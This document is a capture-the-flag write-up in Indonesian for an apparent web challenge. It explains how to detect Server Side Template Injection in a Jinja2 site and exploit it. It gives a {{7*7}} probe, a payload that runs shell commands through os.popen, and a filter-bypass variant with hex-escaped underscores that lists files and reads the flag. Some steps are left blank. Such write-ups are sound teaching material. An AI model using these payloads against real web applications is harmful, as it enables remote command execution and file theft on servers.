



## How to solve

Desc: I made a cool website where you can announce whatever you want! I read about input sanitization, so now I remove any kind of characters that could be a problem :)
I heard templating is a cool and modular way to build web apps! Check out my website here!

Hint 1: Server Side Template Injection

Hint 2: Why is blacklisting characters a bad idea to sanitize input?


1. Sesuai dengan judul serta hint 1, ini adalah soal mengenai Server Side Template Injection

2. Berdasarkan https://portswigger.net/web-security/server-side-template-injection

2. Kita dapat mengecek bahwa itu adalah server side template injection vurnerability kita dapat inputkan "{{7*7}}" kedalam form

3. Jika hasilnya "49" bukan "{{7*7}}", maka dapat dipastikan teradapat SSTI vurnerabiliy

4. Selanjutnya berdasarkan website https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/ kita dapat memasukkan payload dasar

``` bash
    {{request.application.__globals__.__builtins__.__import__('os').popen('ls').read()}}
```

dengan asumsi bahwa website menggunakan template engine Jinja2 yang paling umum

5. Jika kita masukkan payloadnya.. maka 

6. Itu dapat terjadi apabila karakter ".", "_", "[]", diblock

7. Berdasarkan website diatas kita dapat mem-bypassed nya dengan mengganti payload menjadi

``` bash
     {{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('ls')|attr('read')()}}
```

8. Dapat kita lihat bahwa setelah kita inputkan dengan command 'ls', terlihat flagnya 

9. Sekarang kita tinggal ganti 'ls' menjadi 'cat flag' untuk membuka flagnya

``` bash
     {{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat flag')|attr('read')()}}
```

10. 
